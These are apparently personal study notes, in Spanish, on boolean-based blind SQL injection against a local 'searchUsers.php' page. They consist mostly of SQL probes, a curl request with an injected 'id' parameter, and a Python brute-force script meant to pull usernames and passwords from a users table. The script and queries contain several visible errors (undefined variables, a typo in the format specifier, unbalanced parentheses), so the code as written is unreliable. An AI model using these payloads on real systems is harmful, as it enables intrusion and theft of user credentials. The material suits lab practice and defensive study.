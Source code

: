 -------------
Tags: #boolsqli

----------------
## Boolean-based blind SQLi

Con la siguiente sentencia, si la primera letra de username es 'a', entonces devuelve un 1, por el contrario un 0.
```sql
select(select substring(username,1,1) from users where id=1)='a');
```

Si hay una "sanitización" de las comillas, entonces tenemos que jugar con el decimal, para poder evadir las comillas.
```sql
select ascii(substring(username,1,1)) from users where id=1)=97;
```

Podremos ver el código de estado con el siguiente comando:
```bash
curl -S -I -X GET "http://localhost/searchUsers.php" -G -data-urlencode "id-9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)"
```

Realizamos un script en python para explotar la vulnerabilidad anterior (ebemos instalar la libreria pwn con pip3).
```python
import requests;import signal;import sys;import time;import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo... \n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	for position in range(1, 150):
		for character in range(33, 126):
			sqli_url = main_uri + "?id=9 or (select(select ascii( substring(select group_concat(username,0x3a,password) from users, %d, 1)) from users where id = 1)=8d)" % (position, character)
		
			r = requests. get(sqli_url)

			if r.status code == 200:
				extracted_info += chr(character)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLI()
```